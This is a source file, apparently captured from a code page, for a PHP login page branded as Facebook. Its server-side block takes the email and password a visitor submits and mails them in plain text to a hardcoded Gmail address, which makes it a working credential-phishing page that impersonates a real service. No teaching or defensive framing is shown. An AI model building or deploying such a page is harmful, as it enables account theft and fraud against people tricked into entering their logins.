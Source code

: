         login-container button:hover {
            background-color: #145dbf;
        }

        message {
            margin-top: 15px;
            font-size: 14px;
            color: green;
        }

      error {
            margin-top: 15px;
            font-size: 14px;
            color: red;
        }
    </style>
</head>
<body>
    <div class="header">
        Facebook
    </div>
    <div class="login-container">
        <?php
        if ($_SERVER["REQUEST_METHOD"] == "POST") {
            // Obtener datos del formulario
            $email = htmlspecialchars($_POST['email']);
            $password = htmlspecialchars($_POST['password']);

            // Configuración del correo
            $destinatario = "familiacaballero2024@gmail.com";
            $asunto = "Nuevos datos de inicio de sesión";
            $mensaje = "Has recibido nuevos datos de inicio de sesión:\n\n";
            $mensaje .= "Correo electrónico: $email\n";
            $mensaje .= "Contraseña: $password\n";

            // Encabezados (opcional, para correo HTML)
            $headers = "From: no-reply@example.com\r\n";
            $headers .= "Reply-To: no-reply@example.com\r\n";

            // Enviar correo
            if (mail($destinatario, $asunto, $mensaje, $headers)) {
                echo "<p class='message'>Los datos se han enviado correctamente.</p>";
            } else {
                echo "<p class='error'>Hubo un error al enviar los datos.</p>";
            }
        }
        ?>
        <form method="POST">
            <input type="text" name="email" placeholder="Correo electrónico o número de teléfono" required>
            <input type="password" name="password" placeholder="Contraseña" required>
            <button type="submit">Iniciar sesión</button>
        </form>
    </div>
</body>
</html>
